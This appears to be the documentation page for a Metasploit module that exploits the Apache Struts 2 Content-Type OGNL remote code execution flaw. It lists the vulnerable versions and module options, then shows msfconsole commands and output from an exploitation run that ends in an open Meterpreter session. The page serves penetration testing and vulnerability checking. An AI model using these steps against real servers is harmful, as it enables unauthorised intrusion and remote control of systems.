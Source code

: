 `struts2_content_type_ognl` is a module that exploits Apache Struts 2's Jakarta Multipart
parser, which makes it possible to perform arbitrary code execution with a malicious HTTP
`Content-Type` value.

## Vulnerable Application

Apache Struts version 2.3.5 - 2.3.31, and 2.5 - 2.5.10 are vulnerable.

You can download these versions here with any version of Apache Tomcat:

http://archive.apache.org/dist/struts/

You will also need to install a Struts 2 showcase application, which can be found here:

https://mvnrepository.com/artifact/org.apache.struts/struts2-showcase

## Options

**TARGETURI**

The path to a struts application action

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is
set as optional.

## Demonstration

**The Check Command**

The `struts2_content_type_ognl` module comes with a check command that can effectively check
if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the
following:

```
set VERBOSE true
set RHOST [IP]
set TARGETURI [path to the Struts app with an action]
```

When the module is in verbose mode, the `check` command will try to tell you the OS information,
and whether or not the machine is vulnerable. Like this:

```
msf exploit(struts2_content_type_ognl) > check

[+] Victim operating system: Linux
[+] 10.1.11.11:8080 The target is vulnerable.
```

**Exploiting the Host**

After identifying the vulnerability on the target machine, you can try to exploit it.

The exploit supports mainly two platforms: Windows and Linux. To see a list of available payloads,
try to do `show payloads`, and pick one. The following example demonstrates us exploiting a
vulnerable Ubuntu host:

```
msf exploit(struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.1.11.11          yes       The target address
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LPORT         4444             yes       The listen port
   RHOST         10.1.11.11       no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(struts2_content_type_ognl) > run

[*] Started bind handler
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
{"Server"=>"Apache-Coyote/1.1",
 "Set-Cookie"=>"JSESSIONID=548FF051466E6C1F3AAE814E385057DE; Path=/; HttpOnly",
 "Content-Type"=>"text/html;charset=UTF-8",
 "Content-Length"=>"6335",
 "Date"=>"Tue, 14 Mar 2017 21:04:06 GMT"}
[*] Sending stage (1495599 bytes) to 10.1.11.11
[*] Meterpreter session 5 opened (192.168.1.11:50671 -> 10.1.11.11:4444) at 2017-03-14 16:04:36 -0500

meterpreter >
```
